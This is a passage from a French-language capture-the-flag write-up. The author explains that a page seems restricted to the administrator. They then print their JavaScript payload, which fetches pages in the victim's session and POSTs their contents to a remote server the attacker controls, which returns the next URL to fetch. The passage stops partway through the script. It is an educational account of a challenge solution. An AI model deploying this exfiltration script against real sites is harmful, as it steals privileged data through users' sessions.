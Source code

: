 La page semble être limitée à l'administrateur, nous pouvons alors tenter d'obtenir le contenu HTML de la page pour découvrir des fonctionnalités.

![](/medias/writeups/miley-a-ctf-challenge-story/image-8.png)

Et mon code JS :

```javascript
<script
  src="https://code.jquery.com/jquery-3.6.4.js"
  integrity="sha256-a9jBBRygX1Bh5lt8GZjXDzyOB+bWve9EiO7tROUtj/E="
  crossorigin="anonymous"></script>
 <script>

function doRequestTarget(url){
	return new Promise((resolve,reject)=>{
		const xhr = new XMLHttpRequest();
		xhr.open("GET", url);
		xhr.responseType = "blob";
		xhr.onload = () => {
		if (xhr.status === 200) {
			resolve(xhr.response);
		} else {
			reject(new Error(`Request failed with status ${xhr.status}`));
		}
		};
		xhr.onerror = () => {
		reject(new Error("Request failed"));
		};
		xhr.send();
	})
}

function doRequestServer(url,data,nextUrl){
	return new Promise((resolve,reject)=>{
		$.ajax({
			url: remoteServer,
			method: 'POST',
			async: false, // make the request synchronous
			processData: false,
			contentType: false,
			contentType: 'application/json',
			data: JSON.stringify({value:data,name:nextUrl}),
			success: function(data) {
				datas = JSON.parse(data);
				console.log(datas);
				if(datas.next){
					nextUrl=datas.value;
					//isNextBlob=datas.isNextBlob;
					resolve(nextUrl);
				}else{
					reject("");
					nextUrl="";
				}
			},
			error: function() {
				console.log("Should handle this in POST");
			}
		});
	});
}

isNextBlob = false

```